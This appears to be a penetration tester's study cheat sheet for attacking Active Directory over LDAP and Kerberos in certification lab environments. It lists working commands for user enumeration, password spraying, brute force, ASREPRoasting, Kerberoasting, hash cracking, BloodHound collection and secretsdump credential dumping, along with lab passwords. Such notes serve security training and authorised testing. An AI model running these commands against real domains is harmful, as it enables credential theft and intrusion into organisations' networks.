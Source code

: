 ### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract users:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName
ldapsearch -H 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

Extract all info under dn:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract domain password policy:
ldapsearch -x -H ldap://INLANEFREIGHT.LOCAL  -D '' -w '' -b "DC=INLANEFREIGHT,DC=LOCAL" | grep -m 1 -B 10 pwdHistoryLength

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Extract all info:
ldapsearch -H ldap://10.10.11.187 -x -s base

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
kerbrute uses Kerberos authentication to test credentials against the DC  
Using kerbrute = nxc ldap ip -u '' -p '' -k
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
### Password enumeration
```
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.60 -d frizz.htb user_file "\!suBcig@MehTed\!R" -v

./kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb pass_file M.SchoolBus -v
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
```
### ASREPRoast
>ASREPRoast is a security attack that exploits users who lack the Kerberos pre-authentication required attribute. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

ASREPRoast with username list without pass
```
impacket-GetNPUsers nara-security.com/ -dc-ip 192.168.209.30 -usersfile users.txt -format hashcat -outputfile hashes.txt
```
ASREPRoast with credential
```
impacket-GetNPUsers nagoya-industries.com/Fiona.clark:Summer2023 -dc-ip 192.168.183.21  -request -outputfile hashes.asreproast 

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
### Kerberos Roasting
```
impacket-GetUserSPNs -request -dc-ip 192.168.219.21 nagoya-industries.com/svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg
```
> Error of Clock Skew too great
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal

sudo ntpdate -s domain
```
### Querying User Data
```
impacket-GetADUsers nagoya-industries.com/'':'' -user pass -dc-ip 192.168.219.21
```
### Domain Info 
```
bloodhound-python -ns 192.168.219.21 -d nagoya-industries.com -u 'Fiona.Clark' -p 'Summer2023' -c all
sudo proxychains4 -f /etc/proxychains4.conf bloodhound-python -ns 10.10.179.140 -d oscp.exam -u 'web_svc' -p 'Diamond1' -c all --dns-tcp
```
### DCSyn
```
impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt

NTDS.DIT Secrets and Kerberos Key:
impacket-secretsdump 'htb.local'/'venom':'newP@ssword2022'@10.10.10.161
```
